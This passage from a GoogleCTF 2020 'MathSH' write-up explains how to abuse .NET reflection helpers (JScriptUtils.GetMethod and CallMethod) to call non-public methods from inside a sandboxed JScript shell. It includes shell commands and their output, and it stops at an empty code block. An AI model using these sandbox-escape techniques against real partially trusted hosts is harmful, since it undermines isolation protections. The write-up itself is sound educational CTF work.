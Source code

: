 ```
90
144
0
3
...
```
The files can be found [here](https://github.com/amelkiy/write-ups/tree/master/GoogleCTF-2020/MathSH/challenge).
## Dominating the Shell
After "reverse engineering" (it's .NET so we can see the source. I used dotPeek) the binaries we have a pretty good understanding of how the shell operates:
* Program starts to run with full privileges.
* An AppDomain is created with the permissions we can see from the SecurityException.
* Program creates an instance of `JScriptRunner.EntryPoint` inside the AppDomain and calls its method - Run(), passing the flag path and the "communication shell" - the means to communicate with the client.
* The EntryPoint instantiates a JSShell object and runs it.
* JSShell implements the shell interface, uses the ExpressionResolver to resolve the statements and operates on a JScriptGlobal object (`this` in the shell).
* The ExpressionResolver uses a helper class JScriptUtils to invoke methods through Reflection.  
The `JScriptUtils` class is the most interesting one for us, since all the functions there are static and we can use them to call methods that are not directly exposed to the shell. This is the interface it provides:
```
// Creates a delegate for the method.
internal static Delegate CreateDelegate(Type delegate_type, MethodInfo mi, object target);
// Calls the function "name" under "targetObject" with "args". This call is done with ReflectionPermission(PermissionState.Unrestricted). Calls only public functions.
internal static object CallMethodSecure(object targetObject, string name, bool case_sensitive, object[] args);
// Calls a method directly.
public static object CallMethod(MethodInfo method, object targetObject, object[] args) => method.Invoke(targetObject, args);
// Creates a BindingFlags bitmap based on the given parameters.
private static BindingFlags GetFlags(bool static_type, bool case_sensitive, bool non_public);
// Finds a given Type name in all loaded assemblies.
public static Type FindType(string name, bool case_sensitive);
// Returns a method of a give Type if exists using the given binding flags.
public static MethodInfo GetMethod(Type type, string name, bool static_type, bool case_sensitive, bool non_public, object[] args);
// Calls a public method "name" of a given object "targetObject" with "args".
public static object CallMethod(object targetObject, string name, bool case_sensitive, object[] args);
```
Normally, when we use the shell, the ExpressionResolver calls the last "CallMethod" function to invoke a requested method, which in turn finds a `public static` function of a `Type` or a `public` function of an instance, and calls it. If we want to call methods that are non-static or private, we're gonna have to get creative. We can call `GetMethod` ourselves, provide the flags that we want and use the returned method as a parameter to the fist "CallMethod" function. Let's try that:
```
MathSH> __global__.System.AppDomain.CurrentDomain.GetAssemblies()
Cannot find function System.AppDomain.CurrentDomain.GetAssemblies
MathSH> memset(__global__.JScriptRunner.JScriptUtils.GetMethod(__global__.System.AppDomain, "GetAssemblies", false, true, false, array()), 999)
MathSH> memlist()
System.Reflection.Assembly[] GetAssemblies() = 999
MathSH> __global__.JScriptRunner.JScriptUtils.CallMethod(__global__.JScriptRunner.JScriptUtils.GetMethod(__global__.System.AppDomain, "GetAssemblies", false, true, false, array()), __global__.System.AppDomain.CurrentDomain, array())
Unable to cast object of type 'System.Reflection.RuntimeAssembly' to type 'System.IConvertible'.
```
Ok that works! Let's print out the loaded assemblies:
```
```